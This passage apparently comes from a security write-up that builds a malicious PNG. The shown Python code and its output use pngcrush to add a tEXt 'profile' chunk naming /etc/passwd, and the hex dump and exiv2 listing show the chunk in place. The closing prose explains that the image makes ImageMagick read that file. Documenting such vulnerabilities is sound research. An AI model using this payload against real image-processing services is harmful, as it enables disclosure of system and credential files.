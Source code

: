 ```python
]
subprocess.run(cmd)

# View content --------------------------------------------------------------->

print(colored("\n[*] exec: xxd malicious.png\n", "blue"))
cmd = ['xxd', 'malicious.png']
subprocess.run(cmd)

# View metadata -------------------------------------------------------------->

print(colored("\n[*] exec: exiv2 -pS malicious.png\n", "blue"))
cmd = ['exiv2', '-pS', 'malicious.png']
subprocess.run(cmd)

```
    [*] exec: pngcrush -text a profile /etc/passwd img.png malicious.png

    [*] exec: xxd malicious.png
    
    00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
    00000010: 0000 0064 0000 0064 0800 0000 0055 89ca  ...d...d.....U..
    00000020: 8800 0000 2149 4441 5468 43ed c181 0000  ....!IDAThC.....
    00000030: 0000 c3a0 f953 5fe1 0055 0100 0000 0000  .....S_..U......
    00000040: 0000 0000 8f01 2774 0001 2ce1 0e60 0000  ......'t..,..`..
    00000050: 0013 7445 5874 7072 6f66 696c 6500 2f65  ..tEXtprofile./e
    00000060: 7463 2f70 6173 7377 6446 5bd7 5800 0000  tc/passwdF[.X...
    00000070: 0049 454e 44ae 4260 82                   .IEND.B`.

    [*] exec: exiv2 -pS malicious.png

    STRUCTURE OF PNG FILE: malicious.png
     address | chunk |  length | data                           | checksum
           8 | IHDR  |      13 | ...d...d....                   | 0x5589ca88
          33 | IDAT  |      33 | hC..........S_..U............' | 0x2ce10e60
          78 | tEXt  |      19 | profile./etc/passwd            | 0x465bd758
         109 | IEND  |       0 |                                | 0xae426082


      Recompressing IDAT chunks in img.png to malicious.png
       Total length of data found in critical chunks            =       109
       Best pngcrush method        =   1 (ws 15 fm 0 zl 4 zs 0) =        90
    CPU time decode 0.001560, encode 0.001913, other 0.001454, total 0.007425 sec

    CompletedProcess(args=['exiv2', '-pS', 'malicious.png'], returncode=0)



With the previous script I used the command:

``` bash
pngcrush -text a profile /etc/passwd img.png malicious.png
```

To add a malicious chunk text to the __img.png__ image that tells ImageMagick to read the _/etc/passwd_ file and return the new image with the name __malicious.png__.
